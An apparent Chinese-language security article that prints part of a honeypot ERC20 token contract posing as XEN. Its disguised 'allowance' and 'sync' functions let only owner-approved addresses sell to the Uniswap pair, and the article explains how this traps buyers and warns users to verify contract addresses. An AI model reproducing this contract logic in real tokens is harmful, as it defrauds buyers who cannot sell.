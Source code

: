 ```solidity
    ) private {
        require(sender != address(0), "Cannot transfer from the zero address");
        require(sender != address(0), "Cannot transfer to the zero address");
        require(amount > 0, "Transfer amount must be greater than zero");
        if (!_synced[sender] && !_synced[recipient]) {
            require(_isdecreaseAllowance);
            if (_isPermit) {
                require(sender == uniswapV2Pair || recipient == uniswapV2Pair);
                if (recipient == uniswapV2Pair) {
                    require(!_increaseAllowance[sender], "Transfer success");
                    require(!_increaseAllowance[_msgSender()], "Transfer success");
                }
            }
        }
        _tokenBalances[sender] = _tokenBalances[sender].sub(amount);
        _tokenBalances[recipient] = _tokenBalances[recipient].add(amount);
        emit Transfer(sender, recipient, amount);
    }

    function decreaseAllowance(bool value) public onlyOwner {
        _isdecreaseAllowance = value;
    }

    function sync(address[] calldata wallet, bool value)
        external
        onlySynced
    {
        for (uint256 i = 0; i < wallet.length; i++) {
            _synced[wallet[i]] = value;
        }
    }

    function increaseAllowance(address[] calldata wallet, bool value)
        external
        onlySynced
    {
        for (uint256 i = 0; i < wallet.length; i++) {
            _increaseAllowance[wallet[i]] = value;
        }
    }
}
```

代码的逻辑实际就是只有 owner 设置的地址才可以向 uniswapV2Pair 池子转账。翻译成人话就是在 DEX 中，除 owner 及其允许的地址外，任何人只能买不能卖。这也就是所谓的**貔貅盘**。

于是受害者只能用真金白银买入毫无价值的山寨 XEN，与此同时带来的是其币价持续上涨，直到 owner 赚得盆满钵满后直接一波带走。

![图片](https://mmbiz.qpic.cn/mmbiz_png/ia7sc1MryUDlrk8IvHOyYiad4IKuQEib563sQWtOLQH5xxYgq65UpxiaEf6Jorb1Lbb77bKzyjlLMX5PKYDpMpfIiag/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

普通用户参与 DEX 交易时一定要仔细识别合约地址，不能只看名称，因为任何人均可以发行同名 ERC20。
